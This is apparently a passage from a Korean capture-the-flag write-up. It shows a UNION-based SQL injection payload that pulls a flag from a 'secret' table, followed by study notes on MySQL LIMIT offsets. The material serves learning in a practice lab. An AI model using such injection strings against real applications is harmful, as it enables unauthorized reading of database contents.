 ```sql
doldol' and '1' ='0' UNION SELECT 1,2,3,4,5,flag FROM secret LIMIT 1,1-- 
```
> 휴 드디어 찾았다


### 문제에서 배운 것 정리 
SQL에서 `LIMIT`은 **쿼리 결과의 행 수를 제한**할 때 사용됩니다.  
MySQL 기준으로 `LIMIT a, b`는 다음을 의미합니다:

- `a` : **건너뛸 행(row)의 개수** (offset)
- `b` : **가져올 행(row)의 개수**

```
... FROM secret LIMIT 0,1--  → 첫 번째 레코드  
... FROM secret LIMIT 1,1--  → 두 번째 레코드  
... FROM secret LIMIT 2,1--  → 세 번째 레코드
```

| 구문                                | 용도                    | 예시                  |
| --------------------------------- | --------------------- | ------------------- |
| `LIMIT 0,5`                       | 처음부터 5개 행 출력          | 목록 출력용              |
| `ORDER BY id DESC LIMIT 1`        | 가장 최근 행 출력            | 마지막 레코드 접근          |
| `LIMIT n`                         | 상위 n개 행만 출력           | `LIMIT 10` → 상위 10개 |
| `OFFSET n`                        | (PostgreSQL에서) n개 건너뜀 | `OFFSET 3 LIMIT 1`  |
| `WHERE id = (SELECT MIN(id) ...)` | 첫 번째 값 찾기             | 단일 행 정렬 불가능할 때      |
